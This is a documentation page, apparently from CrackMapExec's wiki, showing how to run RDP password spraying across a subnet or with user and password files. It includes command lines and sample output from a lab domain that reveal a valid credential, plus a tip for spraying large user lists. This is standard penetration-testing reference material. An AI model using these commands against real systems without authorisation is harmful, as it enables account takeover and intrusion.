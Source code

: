 # Password Spraying

#### Password spraying

```
#~ poetry run crackmapexec rdp 192.168.1.0/24 -u user -p password
```

```
$ poetry run crackmapexec rdp 192.168.133.157 -u ron -p October2021
RDP         192.168.133.157 3389   DC01             [*] Windows 10 or Windows Server 2016 Build 17763 (name:DC01) (domain:poudlard.wizard)
RDP         192.168.133.157 3389   DC01             [-] poudlard.wizard\ron:October2021 
                                                                                                                                                                
$ poetry run crackmapexec rdp 192.168.133.157 -u rubeus -p October2021
RDP         192.168.133.157 3389   DC01             [*] Windows 10 or Windows Server 2016 Build 17763 (name:DC01) (domain:poudlard.wizard)
RDP         192.168.133.157 3389   DC01             [+] poudlard.wizard\rubeus:October2021 (Pwn3d!)
```

#### Password spraying (without bruteforce)

```
#~ poetry run crackmapexec rdp 192.168.1.0/24 -u userfile -p passwordfile --no-bruteforce
```

Expected Results:

```
└─$ poetry run crackmapexec rdp 192.168.133.157 -u /tmp/users -p passwordfile --no-bruteforce
RDP         192.168.133.157 3389   DC01             [*] Windows 10 or Windows Server 2016 Build 17763 (name:DC01) (domain:poudlard.wizard)
RDP         192.168.133.157 3389   DC01             [-] poudlard.wizard\ron:toto 
RDP         192.168.133.157 3389   DC01             [-] poudlard.wizard\demo:tata
RDP         192.168.133.157 3389   DC01             [+] poudlard.wizard\rubeus:October2021 (Pwn3d!
```

<figure><img src="../../../../.gitbook/assets/image (45).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
By default CME will exit after a successful login is found. Using the `--continue-on-success` flag will continue spraying even after a valid password is found. Usefull for spraying a single password against a large user list.
{% endhint %}
